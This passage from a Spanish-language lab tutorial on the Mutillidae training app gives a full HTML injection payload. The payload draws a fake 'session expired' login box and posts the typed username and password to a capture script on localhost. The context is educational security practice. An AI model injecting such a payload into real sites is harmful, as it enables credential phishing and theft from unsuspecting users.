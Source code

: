 Ahora lo que vamos hacer es un `HTML Injection` siendo de forma ofensiva, con un `paylaod` que nos proporciona la pagina de `Mutillidae` pero cambiando algunas cosas:

```html
<div id="modal" style="position:fixed;top:0;left:0;width:100%;height:100%;background-color:black;opacity:.5;z-index:999998;">&nbsp;</div>
	<div style="margin:5% auto;width:100%;position:fixed;top:5%;left:5%;z-index:9999999;">
	<div id="idlogin" style="width:405px;position:relative;margin:0 auto;background-color:white;padding:10px;border:1px solid black;">
	<script>
	function capture(theForm){
		var lXMLHTTP;
		try{
			var lData = "username=" + theForm.username.value + "&password=" + theForm.password.value;
			var lHost = "localhost";
			var lProtocol = "http";
			var lAction = lProtocol + "://" + lHost + "/mutillidae/capture-data.php";
			var lMethod = "post";
			try{
				lXMLHTTP = new ActiveXObject("Msxml2.XMLHTTP");
			}catch (e){
				try{
					lXMLHTTP = new ActiveXObject("Microsoft.XMLHTTP");
				}catch(e) {
					try{
						lXMLHTTP = new XMLHttpRequest();
					}catch (e) {
						alert(e.message);
					};//end try
				};//end try
			};//end try

			lXMLHTTP.onreadystatechange = function(){
				if(lXMLHTTP.readyState == 4){
					theForm.parentNode.style.display="none";
				}// end if
			};

			lXMLHTTP.open(lMethod, lAction, true);
			lXMLHTTP.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
			lXMLHTTP.send(lData);
		}catch(e){
			alert(e.message);
		};
		alert('Thanks! You may continue now.');
		document.getElementById('modal').setAttribute('style', '');
	};//end function
	</script>
	<form>
		<table style="font-weight:bold;">
			<tbody><tr><td colspan="2" style="font-size:20px;">Sorry! Your session has expired.<br><br>Please login again.</td></tr>
			<tr><td colspan="2">&nbsp;</td></tr>
			<tr><td>Username</td><td><input name="username" type="text"></td></tr>
			<tr><td>Password</td><td><input name="password" type="password"></td></tr>
			<tr><td colspan="2" style="text-align:center;"><input type="button" onclick="javascript:capture(this.form);" value="      Submit      "></td></tr>
		</tbody></table>
	</form>
</div>
```
